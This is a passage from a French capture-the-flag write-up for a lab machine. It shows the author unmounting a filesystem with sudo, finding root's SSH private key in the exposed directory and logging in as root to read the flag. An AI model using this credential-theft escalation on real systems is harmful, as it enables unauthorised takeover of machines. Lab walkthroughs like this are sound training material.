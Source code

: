 On regarde se qui est monté.
On voit que /opt/CoocFS est monté.  

```bash
varg@cchq:/home/varg/cooctOS_src$ sudo -root /bin/umount /opt/CooctFS
varg@cchq:/home/varg/cooctOS_src$ su varg
Password: 
varg@cchq:~/cooctOS_src$ cd /opt/CooctFS/
varg@cchq:/opt/CooctFS$ ls
root
varg@cchq:/opt/CooctFS$ cd root/
varg@cchq:/opt/CooctFS/root$ ls
root.txt
varg@cchq:/opt/CooctFS/root$ cat root.txt 
hmmm...
No flag here. You aren't root yet.
```

On démonte /opt/CoocFS.   
Dans /opt/CoocFS on trouve un fichir root.txt mais c'est le bon.  

```bash
varg@cchq:/opt/CooctFS/root$ ls -al
total 28
drwxr-xr-x 5 root root 4096 Feb 20  2021 .
drwxr-xr-x 3 root root 4096 Feb 20  2021 ..
lrwxrwxrwx 1 root root    9 Feb 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Feb 20  2021 .bashrc
drwx------ 3 root root 4096 Feb 20  2021 .cache
drwxr-xr-x 3 root root 4096 Feb 20  2021 .local
-rw-r--r-- 1 root root   43 Feb 20  2021 root.txt
drwxr-xr-x 2 root root 4096 Feb 20  2021 .ssh
varg@cchq:/opt/CooctFS/root$ cd .ssh/

varg@cchq:/opt/CooctFS/root/.ssh$ ls
id_rsa  id_rsa.pub

varg@cchq:/opt/CooctFS/root/.ssh$ ssh -i id_rsa root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:7/RM1nMYqyZHC8ICXMcPUC3vIVlZuQab39ZsXs9Q+NI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Oct 25 12:26:59 UTC 2021

  System load:  0.0                Processes:           130
  Usage of /:   35.4% of 18.57GB   Users logged in:     1
  Memory usage: 49%                IP address for eth0: 10.10.144.56
  Swap usage:   0%


0 packages can be updated.
0 of these updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Feb 20 22:22:12 2021 from 172.16.228.162
root@cchq:~# cat /root/root.txt
```